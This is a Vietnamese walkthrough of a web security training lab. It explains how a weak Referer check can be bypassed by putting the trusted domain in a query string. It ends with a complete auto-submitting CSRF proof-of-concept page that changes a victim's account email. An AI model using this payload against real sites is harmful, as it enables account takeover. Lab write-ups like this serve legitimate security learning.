 ![image](https://github.com/user-attachments/assets/cc5f9f93-15e7-4669-89e0-59424a90b31c)

![image](https://github.com/user-attachments/assets/4511c2d9-365c-4457-8324-607aa893fcda)

![image](https://github.com/user-attachments/assets/26dd72bb-d4aa-4b6b-91cf-2ef82e3afcd3)

Bạn quan sát được sự khác biệt chứ.

Đó chính là nó sẽ check xem cùng domain hay không? nó chỉ quan tâm có cùng domain hay không thôi, và cơ chế check của nó thì tôi có thể đoán được rằng nó đang check từng kí tự từ index = 0 cho đến kí tự cuối của domain thì sẽ pass, nó sẽ không quan tâm đằng sau cái domain đó là cái gì.

Và đây sẽ là 1 lỗ hổng giúp ta bypass, tức là giờ ta sẽ tìm cách nối dài cái url này bằng cách query nó chẳng hạn `?`.

```
Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net
```

Vậy vẫn chưa đủ, tiến hành thêm `<meta name="referrer" content="unsafe-url">`.

Nhiều trình duyệt hiện nay sẽ tự động bỏ query string trong Referer vì lý do bảo mật. Để tránh điều này, thêm tiêu đề Referrer-Policy vào phần <head> của HTML để yêu cầu trình duyệt giữ nguyên URL đầy đủ

Tiến hành tạo 1 cái poc csrf cơ bản

```
<html>
  <head>
    <meta name="referrer" content="unsafe-url">
  </head>
  <body>
    <form action="https://0aca00ec0326dd8f8236fda100c2001b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a112dmin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      // Thêm query string chứa tên miền lab để bypass kiểm tra Referer
      history.pushState('', '', '/?0aca00ec0326dd8f8236fda100c2001b.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![image](https://github.com/user-attachments/assets/7c773dc0-22e4-4e26-ad81-04112efb148b)

Vậy là đã thành công

## REFERENCES
[1]. https://www.trustedsec.com/blog/setting-the-referer-header-using-javascript
